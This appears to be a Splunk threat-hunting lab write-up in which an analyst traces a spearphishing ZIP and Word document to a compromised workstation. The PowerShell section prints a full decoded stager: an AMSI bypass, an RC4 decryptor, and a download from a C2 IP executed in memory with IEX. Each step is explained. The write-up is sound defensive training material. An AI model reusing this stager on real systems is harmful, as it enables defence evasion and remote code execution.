


# Threat Hunting Investigation Report

**Platform:** Splunk Enterprise Security  
**Objective:** Hunting an Advanced Persistent Threat (APT) intrusion using Splunk  
**Skills:** Threat hunting, log analysis, MITRE ATT&CK framework, data correlation  
**Tools:** Splunk, CyberChef, IP2Location

---

## Scenario Overview

I assumed the role of Alice Bluebird, a Security Analyst at Frothly Brewing Company. The FBI notified Grace Hoppy, CEO of Frothly, about an intrusion by Taedongang APT - an East Asian advanced persistent threat group that targets innovative brewing companies. My mission was to investigate the adversary's actions and understand the scope of the compromise.

**Target Organization:** Frothly Brewing Company  
**Threat Actor:** Taedongang APT  
**Investigation Period:** August 2017  
**MITRE ATT&CK Technique:** Spearphishing (T1566.001)

### The 5 W's
| Question | Answer |
|----------|--------|
| Who | Taedongang APT |
| What | APT |
| When | August 2017 |
| Where | Frothly Brewing Company network |
| Why | Likely espionage or intellectual property theft |

---

## Summary

In August 2017, Frothly Brewing Company was targeted by a spearphishing campaign attributed to Taedongang APT. The attacker used a password-protected ZIP file to deliver a malicious Word document, which upon execution launched an obfuscated PowerShell script. This bypassed AMSI protection and connected to a remote C2 server for payload retrieval. One host and user account were confirmed compromised.

---

## Investigation Process

### 1. Initial Email Log Analysis

I began by querying the SMTP email logs for August 2017 to identify potential spearphishing attempts:

```splunk
index=botsv2 sourcetype=stream:smtp earliest=08/01/2017:00:00:00 latest=08/31/2017:23:59:59
```

**Results:** 669,179 email events analyzed, with 6 emails containing attachments (`attach_filename{}` field).

 content

### 2. Attachment Inspection

The file `invoice.zip` emerged as suspicious due to its binary nature and attachment metadata.

```splunk
index=botsv2 sourcetype=stream:smtp attach_filename{}="invoice.zip"
```

 

- **First occurrence:** 8/23/17 8:27:14
- **Source IP:** 4 IPs from the `104.47.0.0/16` range (Microsoft-owned IP space)
- **Targeted Recipients:** abungstein@froth.ly, btun@froth.ly, fyodor@froth.ly, klagerfield@froth.ly
- **File attributes:**
  - Encoded MD5: 20e368e2c9c6e91f24eeddd09369c4aa
  - Decoded MD5: 0fa0f1b660962d4a4d1cd6782a03db05
  - Size: 22,578 bytes
  - Content type: application/octet-stream (binary file)

All 4 occurrences had the same file size and MD5 hash. It was sent to 4 targeted recipients.

The `attach_type{}` (MIME type) value for this file is `application/octet-stream`, which is the default value for a binary file. This MIME type means "unknown binary file." Browsers usually don't automatically execute it, or even ask if it should be executed. They treat it as if the content-disposition header was set with the value attachment and propose a 'save as' file.

### 3. Email Campaign Characteristics

 

Sender IP `185.83.51.21` was tied to the domain `urinalysis.com`, delivered via mailing list provider `ymlpsvr.com`. 

Filter all events where emails had an attachment `invoice.zip` from sender 185.83.51.21
```splunk
index=botsv2 sourcetype=stream:smtp attach_filename{}="invoice.zip" | rex field=content "sender IP is (?<sender_ip>\d+.\d+.\d+.\d+)" | search sender_ip=185.83.51.21
```

All 4 emails were identical with sender information:
- **Name:** Jim Smith <jsmith@urinalysis.com>
- **Sender IP:** 185.83.51.21
- **SMTP Server:** smtp12.ymlpsvr.com

The content body across all 4 emails was also identical.



The phishing email claimed to be an invoice and included a password-protected document with password "912345678".

### 4. OSINT and IP Attribution

**IP Geolocation Analysis using IP2Location:**

Using IP2Location, all 4 source IPs were verified as Microsoft-owned, indicating possible spoofing. The sender IP (`185.83.51.21`) geolocated to Belgium, owned by `YMLP BVBA` — a legitimate mailing list provider. No direct malicious attribution could be established for the domain `urinalysis.com`.


### 5. Historical Email Analysis

Check if Jim Smith sent any other emails to Frothly:
```splunk
index=botsv2 sourcetype=stream:smtp sender="Jim Smith <jsmith@urinalysis.com>"
```

`Malware Alert Text.txt` first occurrence: 
- **First occurrence:** 8/10/17 8:24 PM
- **Source IP:** 4 IPs from the `104.47.0.0/16` range (Microsoft-owned IP space)
- **Targeted Recipients:** abungstein@froth.ly, btun@froth.ly, fyodor@froth.ly, klagerfield@froth.ly
- **File attributes:**
  - Encoded MD5: 6d1960c97244622748c5418f6033a3f4
  - Decoded MD5: 41099cf098c8e7655e9fd73b29e14d70
  - Size: 256 bytes
  - Content type: application/octet-stream (binary file)

The source IP, sender, targeted recipients, and content type were exactly the same. 

### 6. Content Analysis with CyberChef

 attach transfer encoding
The `attach_transfer_encoding` of the file `Malware Alert Text.txt` was base64 encoded. I used CyberChef to decode the base64 content.


Base64 decoding in CyberChef revealed that `Malware Alert Text.txt` was removed as it was detected as a Trojan. 


Running the Decoded Content MD5 hash (`0fa0f1b660962d4a4d1cd6782a03db05`) of `invoice.zip` came out clean. This means it was tested to be clean by all security vendors before sending it.

Comparing the content_body of the 2 emails (blocked email and email that sent `invoice.zip` file):
```splunk
index=botsv2 sourcetype=stream:smtp sender="Jim Smith <jsmith@urinalysis.com>" | table _time recipient subject content_body{} | sort recipient
```

 

There are many similarities within the 2 emails.

### 7. Execution and Endpoint Analysis

Analyzed non-SMTP events linked to `invoice.zip`:
```splunk
index=botsv2 sourcetype!=stream:smtp invoice.zip
```


Searching for evidence of `invoice.zip` execution revealed events on host `wrk-btun` by user `billy.tun`.

**Execution Details:**
- **Host:** wrk-btun
- **User:** billy.tun
- **Execution Time:** August 23, 2017, 8:28:55 PM (initial execution of `WINWORD.EXE`)
- **Process:** Microsoft Word (WINWORD.EXE)
- **File Path:** C:\Users\billy.tun\AppData\Local\Temp\Temp1_invoice.zip\invoice.doc


**Execution Timeline:**

| Time | Source Type | Event Description |
|------|-------------|-------------------|
| 8:28:30 PM | Sysmon | File Creation Time Changed (EventCode=2) - `OUTLOOK.EXE` accessed `invoice.zip` (received via email) |
| 8:28:55 PM | Sysmon | Process creation (EventCode=1) `explorer.exe` (Windows Explorer) launched `WINWORD.EXE` (Microsoft Word) to open `invoice.doc` inside ZIP - **Initial Execution**. User likely double-clicked the file. |
| 8:28:55 PM | wineventlog | Standard Windows Logging - Word (`WINWORD.EXE`) opened `invoice.doc` |
| 8:38:12 PM | WinHostMon | Host-Level Change - confirms `WINWORD.EXE` was still running at this time |
| 8:41:53 PM | WinRegistry | Registry Key Update – Word added doc path to its "recently opened files" registry list |

The user likely double-clicked the Word document embedded in the ZIP, triggering its execution.

**Process Chain:**
```
Outlook ➡ Explorer ➡ Word ➡ Registry update
```

<details>
<summary><strong>Read full explanation with log details</strong></summary>

**Sysmon Log** at 8:28:30 PM
- `Event Code`: 2 — File creation time changed
- `Image`: C:\Program Files (x86)\Microsoft Office\root\Office16\OUTLOOK.EXE

Outlook (`OUTLOOK.EXE`) accessed `invoice.zip` — this typically means the file was received via email and saved or opened, triggering a file creation timestamp change.

**Sysmon Log** at 8:28:55 PM
- `Event Code`: 1 - Process Creation
- `Image`: C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE
- `ParentImage`: C:\Windows\explorer.exe
- `CommandLine`: "C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\billy.tun\AppData\Local\Temp\Temp1_invoice.zip\invoice.doc" /o "u"

`Image` is the full path of the process that was launched. `ParentImage` is the full path of the process that launched the new process. So the user opened the `invoice.doc` using `explorer.exe`.

The user launched Microsoft Word (`WINWORD.EXE`), the launching application was Windows File Explorer (`explorer.exe`). This means the user likely double-clicked the `invoice.doc` file in the GUI file browser (File Explorer/ `explorer.exe`), which caused Word (`WINWORD.EXE`) to open.


**WinHostMon** at 8:38:12
- `Type`: Process
- `Name`: "WINWORD.EXE"

This confirms that Word (`WINWORD.EXE`) was still running at 8:38:12 PM. The initial launch was logged earlier at 8:28:55 PM.


**WinRegistry** at 8:41:53
- `process_image`: "c:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.EXE"
- `registry_type`: "SetValue"
- `key_path`: "HKU\s-1-5-21-3348076501-352378380-2991248034-1115\software\microsoft\office\16.0\word\reading locations\document 0\file path"

This is a normal registry entry Word uses to track recently opened documents. This registry entry confirms that Word (`WINWORD.EXE`) successfully opened the document and recorded its path in the 'recently opened files' registry key (under 'reading locations'). This reflects standard Office behavior when a document is opened.

</details>

**MITRE Attack Mapping:**

**[Phishing: Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/)**
- ID: T1566.001
- Sub-technique of: T1566
- Tactic: Initial Access

**[User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/)**
- ID: T1204.002
- Sub-technique of: T1204
- Tactic: Execution

There may be `macro` or `embedded script` in Word, which needs to be investigated.

A `macro` is a small program embedded inside Microsoft Office documents (like Word or Excel). It's typically written in VBA (Visual Basic for Applications). Macros can automate tasks (e.g., formatting, calculations). But attackers use them to run malicious code when a user opens the document.

### 8. PowerShell Payload Analysis

Checking for sysmon events a minute after process creation, using `reverse` command (shows the events in the order they happened):

```splunk
index=botsv2 host="wrk-btun" sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" earliest=08/23/2017:20:28:55 latest=08/23/2017:20:30:00 | reverse
```


**Execution Timeline:**

| Time | Source Type | Event Description |
|------|-------------|-------------------|
| 8:29:08 PM | Sysmon | Process creation (EventCode=1) - `WmiPrvSE.exe` launched `powershell.exe` |

Sysmon logs showed that shortly after Word execution, `powershell.exe` was launched by `WmiPrvSE.exe`.

**Execution Chain:**
```
Outlook ➡ Explorer ➡ Word ➡ WMI Provider Host ➡ PowerShell
```

<details>
<summary><strong>Read full explanation with log details</strong></summary>

**Sysmon Log** at 8:28:57 PM
- `Event Code`: 1 - Process Creation
- `Image`: C:\Program Files\Common Files\Microsoft Shared\OfficeSoftwareProtectionPlatform\OSPPSVC.EXE
- `ParentImage`: C:\Windows\System32\services.exe
- `CommandLine`: "C:\Program Files\Common Files\Microsoft Shared\OfficeSoftwareProtectionPlatform\OSPPSVC.EXE"

`Services.exe` launched `OSPPSVC.EXE`.

**Sysmon Log** at 8:29:08 PM
- `Event Code`: 1 - Process Creation
- `Image`: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
- `ParentImage`: C:\Windows\System32\wbem\WmiPrvSE.exe
- `CommandLine`: powershell -noP -sta -w 1 -enc

`WmiPrvSE.exe` launched `powershell.exe`.

</details>

Following the document execution, encoded PowerShell commands were executed:

```powershell
powershell -noP -sta -w 1 -enc [encoded_command]
```

PowerShell base64 encoded command decoded using CyberChef.

**Full Decoded PowerShell Command:**
```powershell
[REF].ASSEmblY.GeTTYPe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GetFIELd('amsiInitFailed','NonPublic,Static').SetVaLue($nuLl,$TruE)};[SYsTEM.Net.SerVIcEPOinTMAnAGEr]::EXPEcT100CONtinue=0;$wC=NEw-OBjECT SysTem.NEt.WeBCliEnT;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};$Wc.HeADers.Add('User-Agent',$u);$Wc.PROXy=[System.NEt.WEBRequeST]::DefAUltWebPrOxy;$WC.PRoxy.CREDeNtIAls = [SySteM.NET.CRedENtiAlCAChE]::DeFAulTNETWoRkCreDENTIalS;$K=[SysTem.TExt.ENcOdiNG]::ASCII.GetBYTes('389288edd78e8ea2f54946d3209b16b8');$R={$D,$K=$ArgS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COUNT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-BXoR$S[($S[$I]+$S[$H])%256]}};$WC.HeaDeRS.Add("Cookie","session=jknXpoa7pUA0lDB+nYiQvU9unHg=");$ser='https://45.77.65.211:443';$t='/login/process.php';$DATA=$WC.DoWnLoAdDaTa($SEr+$t);$IV=$DATa[0..3];$dATa=$DaTA[4..$daTa.LeNGtH];-joiN[CHar[]](& $R $data ($IV+$K))|IEX
```

**Decoded PowerShell Command Analysis:**
The PowerShell script performed the following malicious activities:
- Disabled AMSI (anti-malware scanning interface) to bypass defender scanning
- Set up a WebClient (blends in with browser behavior)
- Used encryption key: 389288edd78e8ea2f54946d3209b16b8
- Downloads encrypted payload from a remote server (https://45.77.65.211:443/login/process.php)
- Decrypts payload using a custom RC4-like function
- Executes the result in memory using IEX (Invoke-Expression)

The PowerShell indicates:
- Obfuscated PowerShell (Casing variation to avoid static detection) - [REF] is an obfuscated variant of [Ref]
- Encrypted remote payloads
- Runtime decryption and in-memory execution

**MITRE Attack Mapping:**

**[Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)**
- ID: T1059.001
- Sub-technique of: T1059
- Tactic: Execution

**[Obfuscated Files or Information: Embedded Payloads](https://attack.mitre.org/techniques/T1027/)**
- ID: T1027.009
- Sub-technique of: T1027
- Tactic: Defense Evasion

**[Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/)**
- ID: T1071.001
- Sub-technique of: T1071
- Tactic: Command and Control

**[Data encoding: Standard encoding](https://attack.mitre.org/techniques/T1132/001/)**
- ID: T1132.001
- Sub-technique of: T1132
- Tactic: Command and Control

<details>
<summary><strong>Read full explanation of PowerShell</strong></summary>

1. **Disable AMSI (Anti-Malware Scan Interface)**
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') |
? {$_} |
% { $_.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true) }
```
- Accesses the `.NET` class `AmsiUtils` using reflection.
- Sets the field `amsiInitFailed = true`, which disables Windows Defender's AMSI, which normally scans PowerShell code before execution.

**Note:** 
- PowerShell is built on .NET, a powerful framework that includes thousands of predefined classes you can use — like `System.Net.WebClient` for HTTP requests, `System.Text.Encoding` for character encoding, `System.Management.Automation.AmsiUtils` .NET class used by Defender's AMSI scanning
- Reflection is a programming technique that lets you dynamically inspect, access, and manipulate parts of a class (like fields, properties, or methods), even private or internal parts that aren't normally exposed. Here `[Ref].Assembly.GetType('...')` uses reflection to load the internal .NET class `AmsiUtils`. `.GetField('amsiInitFailed', 'NonPublic,Static')` accesses a private, static field inside that class — this wouldn't normally be allowed.

2. **Disable "Expect: 100-Continue" HTTP header**
```powershell
[System.Net.ServicePointManager]::Expect100Continue = 0
```
- Prevents the HTTP stack from sending the `Expect: 100-continue` header.
- This helps avoid detection by certain web filters or proxies.

When using HTTP POST requests (especially with larger payloads), the client (e.g., PowerShell's WebClient) might send a special header: Expect: 100-continue. 
- Client sends: "Hey, I want to send you some data (like a POST body), please let me know if you're OK with it."
- Server replies: HTTP/1.1 100 Continue
- And only then does the client send the body.

Client = The system running the PowerShell script (the infected machine)
Server = The remote command-and-control (C2) server (https://45.77.65.211 in your script)

**Why disable it:** 
- Many network intrusion detection systems (IDS/IPS) or web proxies flag or log requests with `Expect: 100-Continue`. It's unusual in most legit browsing behavior but common in scripting tools like PowerShell's `WebClient`.
- It slows things down as client waits for the `100 Continue`

3. **Set up WebClient with proxy and headers**
```powershell
$wc = New-Object System.Net.WebClient
$u = 'Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko'
$wc.Headers.Add('User-Agent', $u)
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
```
Simulates a normal browser using:
- WebClient (`$wc`) to fetch web content. 
Creates a new WebClient object in PowerShell. WebClient is used to download or upload data via HTTP/S.
- Sets a legitimate-looking User-Agent (`$u`) to make the request look like it's coming from a real browser, not from a script/tool. This avoids triggering alerts or web application firewalls (WAFs), which may log or block default script user-agents like WebClient/1.0.
- Uses system default proxy and credentials — could help blend in on a corporate network.

4. **Define encryption key (hex string)**
```powershell
$K = [System.Text.Encoding]::ASCII.GetBytes('389288edd78e8ea2f54946d3209b16b8')
```
- Converts the hex string into a byte array. This acts as the RC4 key (`$K`).

5. **Define RC4-like decryption function**
```powershell
$R = {
    $d, $k = $args
    $s = 0..255
    0..255 | % {
        $j = ($j + $s[$_] + $k[$_ % $k.Count]) % 256
        $s[$_], $s[$j] = $s[$j], $s[$_]
    }
    $d | % {
        $i = ($i + 1) % 256
        $h = ($h + $s[$i]) % 256
        $s[$i], $s[$h] = $s[$h], $s[$i]
        $_ -bxor $s[($s[$i] + $s[$h]) % 256]
    }
}
```
This is a custom implementation of RC4 (`$R`), a stream cipher used to encrypt and decrypt the payload.

6. **Set server & send HTTP request**
```powershell
$wc.Headers.Add("Cookie", "session=jknXpoa7pUA0lDB+nYiQvU9unHg=")
$ser = 'https://45.77.65.211:443'
$t = '/login/process.php'
$data = $wc.DownloadData($ser + $t)
```
Adds a cookie header. This might: Identify the client to the server, Unlock the real payload (server checks if cookie is valid), Bypass filters or appear legitimate
Constructs the URL (`$ser + $t`) to contact a remote server to retrieve an encrypted payload.
Downloads encrypted binary data from IP address: `45.77.65.211`, Path: `/login/process.php`

7. **Decrypt downloaded data & execute in memory**
```powershell
$IV = $data[0..3]
$data = $data[4..$data.Length]
-joiN[Char[]](& $R $data ($IV + $K)) | IEX
```
- First 4 bytes are treated as an Initialization Vector (`$IV`)
- The rest is the encrypted payload
- `$R` (RC4 function) decrypts it using IV + key (`$IV + $K`)
- The result is joined and piped to IEX (Invoke-Expression) ➜ executes decrypted PowerShell in memory. 

This is in-memory code execution — common in fileless malware and hard to detect.

</details>

---

## Key Findings

### 1. Attack Timeline
- **August 10, 2017:** Initial malware delivery attempt (unsuccessful)
- **August 23, 2017:** Successful spearphishing campaign
- **August 23, 2017, 8:28:55 PM:** Malware execution by `billy.tun`

### 2. Attack Vector
- **Primary Method:** Password-protected ZIP (`invoice.zip`) containing a malicious Word document
- **Technique:** Spearphishing Attachment (T1566.001)

### 3. Compromise Scope
- **User:** billy.tun
- **Host:** wrk-btun
- **Indicators:**  In-memory execution, C2 communication

---

## Indicators of Compromise (IOCs)

| IOC Type | Value | Description |
|----------|-------|-------------|
| **File Hash** | 20e368e2c9c6e91f24eeddd09369c4aa | MD5 of `invoice.zip` |
| **IP Address** | 185.83.51.21 | Phishing email source |
| **IP Address** | 45.77.65.211 | C2 server |
| **Email Address** | jsmith@urinalysis.com | Malicious sender |
| **Domain** | ymlp.com | Associated with threat actor |
| **Encryption Key** | 389288edd78e8ea2f54946d3209b16b8 | PowerShell payload RC4 encryption key |

---

## MITRE ATT&CK Framework Mapping

| Technique | Name | Tactic | Description |
|-----------|------|--------|-------------|
| **T1566.001** | Phishing: Spearphishing Attachment | Initial Access | ZIP file with malicious document |
| **T1204.002** | User Execution: Malicious File | Execution | User opened the document |
| **T1059.001** | Command and Scripting Interpreter: PowerShell | Execution | PowerShell payload execution |
| **T1027.009** | Obfuscated Files or Information: Embedded Payloads | Defense Evasion | Encoded PowerShell script |
| **T1071.001** | Application Layer Protocol: Web Protocols | Command and Control | Payload downloaded over HTTPS |
| **T1132.001** | Data Encoding: Standard Encoding | Command and Control | Base64-encoded payload |

---

## Conclusion

The investigation confirmed a targeted spearphishing campaign by Taedongang APT. A password-protected ZIP containing a malicious Word document successfully executed on an employee’s workstation. It launched an obfuscated PowerShell payload that bypassed security controls and downloaded further malware from a remote C2 server. The attack employed stealthy evasion techniques and legitimate-looking infrastructure.

**Immediate mitigation should include:**
- Blocking the identified IPs and domains
- User awareness training on spearphishing
- Enhanced detection rules for encoded PowerShell activity (Image="*powershell.exe" OR CommandLine="*EncodedCommand*")
- Deploy endpoint detection for AMSI bypass techniques

---

## Reflection

This exercise demonstrates the need for layered security: email filtering, endpoint telemetry, and PowerShell monitoring. Even a single user interaction (opening a document) can lead to system compromise. Early detection via logging (e.g., Sysmon) and correlation across email, endpoint, and network layers was critical in identifying and containing this threat.